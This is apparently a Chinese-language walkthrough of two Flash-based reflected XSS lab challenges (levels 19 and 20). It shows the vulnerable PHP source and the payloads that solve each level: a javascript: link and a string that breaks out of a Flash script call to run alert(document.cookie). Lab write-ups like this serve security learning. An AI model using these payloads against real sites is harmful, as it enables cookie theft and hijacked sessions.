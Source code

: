 ##### 挑战十九

````php+HTML
//此题主要介绍考察Flash XSS
<?php
ini_set("display_errors", 0);
echo '<embed src="xsf03.swf?'.htmlspecialchars($_GET["arg01"])."=".htmlspecialchars($_GET["arg02"]).'" width=100% heigth=100%>';
?>
````

直接访问URL

```
http://xss-lab.me:8888/level19.php?arg01=a&arg02=b
```

![image-20200829104903728](/images/XSS/image-20200829104903728.png)

swf文件直接输出参数值

````shell
//使用a标签加载javascript协议弹窗
`/level19.php?arg01=version&arg02=<a href="javascript:alert('XSS')">XSS_Click</a>`
````

![image-20200829105426617](/images/XSS/image-20200829105426617.png)

点击触发漏洞

`Result`

![image-20200829105522767](/images/XSS/image-20200829105522767.png)

##### 挑战二十

```php+HTML
//网络搜索未找到对应解析此题，只知道此题还是Flash XSS。
<?php
ini_set("display_errors", 0);
echo '<embed src="xsf04.swf?'.htmlspecialchars($_GET["arg01"])."=".htmlspecialchars($_GET["arg02"]).'" width=100% heigth=100%>';
?>
```

`payload`

```shell
//使用以下payload可实现，备注参数arg01的值必须是id不然都不弹窗；不理解其意；
`level20.php?arg01=id&arg02=\"))}catch(e){}if(!self.a)self.a=!alert(document.cookie)//%26width%26height`
```

`Result`

![image-20200829135137358](/images/XSS/image-20200829135137358.png)

参考以上学习可简单了解XSS反射型，但如想继续研究建议可网络搜索在线挑战并练习或参考网上Writeup。
